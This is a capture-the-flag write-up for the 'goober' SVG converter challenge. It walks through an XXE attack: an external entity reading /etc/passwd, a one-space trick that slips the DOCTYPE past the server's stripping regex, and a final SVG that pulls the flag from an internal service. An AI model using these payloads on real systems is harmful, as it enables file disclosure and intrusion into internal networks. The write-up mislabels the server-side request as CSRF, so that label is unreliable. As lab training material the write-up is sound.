

# goober (v0rtex)
> Javascript has built-in functionality to convert SVGs to PNGs. But Javascript is slow. You know what's fast! Golang! I created goober, the world's first online SVG to PNG converter written in Go.


## Exploration
We can diagram the web challenge like the following


In `internal/app.py` there is a very simple Flask server which is not connected to the outside internet, and which reads the flag.
```python
from flask import Flask, request
import os
from dotenv import load_dotenv

load_dotenv()

flag = os.getenv("FLAG")

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    return "<p>Whoa! You must be someone important </p>"

@app.route("/flag", methods=["GET"])
def get_flag():
    print(request.remote_addr, " Sent flag")
    return f"Here's your flag: {flag}"
```

We need to somehow upload a file which will make a request while the server is processing it, and send us back the flag. This is known as Cross Site Request Forgery (CSRF) because we are making the server make our own request. Lets take a look at some of the validation steps that the server is doing.

```go
func parseForm(req *http.Request) ([]byte, error) {
	err := req.ParseMultipartForm(1024 * 1024) // no svg should be over a 1mb imo

	if err != nil {
		return nil, err
	}

	var buf bytes.Buffer

	file, _, err := req.FormFile("svgfile")

	if err != nil {
		return nil, err
	}

	defer file.Close()

	io.Copy(&buf, file)

	contents := buf.String()

	// remove custom doctype, dtd
	reg := regexp.MustCompile(`<!DOCTYPE[^>[]*(\[[^]]*\])?>`)
	contentSafe := reg.ReplaceAllString(contents, "")

	return []byte(contentSafe), nil
}

func validateSVG(input []byte) ([]byte, error) {
	data, err := libxml2.Parse(input, parser.Option(2))

	if err != nil {
		return nil, err
	}

	defer data.Free()

	// xsd won't play nicely with svgs :(
	// ensure that root has name svg
	root, err := data.DocumentElement()

	if err != nil || !root.HasChildNodes() {
		log.Println(err)
		return nil, errors.New("invalid document format - no child nodes")
	}

	if strings.ToLower(root.NodeName()) != "svg" {
		return nil, errors.New("invalid document format - missing svg node")
	}

	return []byte(root.String()), nil
}

func (c *Converter) svgToPng(input []byte) ([]byte, error) {
	infile, err := ioutil.TempFile("/tmp", "temp-*.svg")

	if err != nil {
		return nil, err
	}

	defer os.Remove(infile.Name())

	infile.Write(input)

	ofile, err := ioutil.TempFile("/tmp", "temp-*.png")
	if err != nil {
		return nil, err
	}

	defer os.Remove(ofile.Name())

	imagick.Initialize()
	defer imagick.Terminate()
	mw := imagick.NewMagickWand()
	defer mw.Destroy()

	_, err = c.cmd([]string{
		"convert",
		"-background", "none",
		"-density", "1000",
		"-resize", "1000x",
		infile.Name(),
		ofile.Name(),
	})

	if err != nil {
		return nil, err
	}

	ret, err := os.ReadFile(ofile.Name())

	if err != nil {
		return nil, err
	}

	return ret, nil
}
```

In essence it passes through these steps
1. The uploaded file cannot be larger than 1mb
2. Remove all text which matches the regex `<!DOCTYPE[^>[]*(\[[^]]*\])?>`
3. Parse the file as XML and ensure it has an `<svg>` root tag

Now that we have our constraints, we can begin to craft a payload.

## Exploit
From prior knowledge, we know that SVGs are just XML, so lets begin crafting an svg and start coming up with ways to make network requests inside of an SVG.

How about an image?
```xml
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
	<image href="https://developer.mozilla.org/en-US/docs/Web/SVG/Element/image/mdn_logo_only_color.png" height="200" width="200" />
</svg>
```


Great! The fact that this image was rendered successfully means that our crafted SVG successfully made a network request on the server, to another server (mozilla.org). Now that we can do that, we just need to make a request to `http://goober-internal:5001/flag` inside our SVG to get the flag. However, this doesn't work, because we need the request to send back an image, and not just text. To continue we are going to have to look at another one of the constraints.

But why does the server remove `<!DOCTYPE[^>[]*(\[[^]]*\])?>` from our upload? It looks like the beginning of an html document...but we are uploading an SVG. They're both kinda XML I guess? [Lets look it up](https://www.google.com/search?q=%3C%21DOCTYPE%3E+xml+vulnerability). We immediately find out about XML External Entity (XXE) attacks, and how we can use them. Here's an example payload:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
	<text x="0" y="100" font-size="8">&xxe;</text>
</svg>
```

We define an entity `xxe` basically as a variable in our SVG which evaluates to the result of `file:///etc/passwd`. So I guess this is why the server removes it. Thanks for pointing us in the right direction though! Regex is really hard, and a terrible idea for security and validation. If there is a regex validating something, we can probably beat it. Lets put it into my favorite website ever, [regexr.com](https://regexr.com) (make sure to set the regex engine as PCRE instead of JavaScript), and see if we can beat it.


As long as the text is highlighted, it will be "removed" on the server. We need a `<!DOCTYPE>` tag which will parse as valid XML but is not detected by the regex. By playing around a bit, adding a single space at the end between the `]>` making it `] >`, will beat it.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]> // detected
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">] > // not detected
```

Lets make the final payload SVG, even making the request to the internal Flask server, and upload it.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://goober-internal:5001/flag"> ] >
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
	<text x="0" y="100" font-size="8">&xxe;</text>
</svg>
```


